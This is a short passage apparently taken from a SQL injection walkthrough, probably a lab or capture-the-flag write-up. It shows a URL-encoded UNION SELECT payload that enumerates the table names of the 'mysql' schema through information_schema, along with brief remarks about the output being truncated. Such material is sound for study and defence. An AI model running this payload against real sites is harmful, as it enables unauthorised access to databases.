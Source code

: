 ![](./IMG/37.png)

> I changed to aim the target on schema 'mysql'

```
100%20UNION%20SELECT%201,group_concat(table_name),3,4,5,6,7%20From%20information_schema.tables%20WHERE%20table_schema=%27mysql%27;--%20-
```
> The result in browser can't show the whole table name
